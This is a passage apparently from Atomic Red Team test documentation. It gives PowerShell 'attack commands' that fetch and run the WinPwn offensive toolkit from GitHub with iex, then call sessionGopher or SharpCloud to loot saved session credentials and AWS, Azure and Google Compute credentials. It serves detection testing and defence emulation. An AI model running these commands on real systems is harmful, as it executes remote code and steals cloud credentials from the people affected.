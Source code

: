 
**auto_generated_guid:** c9dc9de3-f961-4284-bd2d-f959c9f9fda5






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sessionGopher -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials
Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** aaa87b0e-5232-4649-ae5c-f1724a4b2798






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
SharpCloud -consoleoutput -noninteractive
```






<br/>
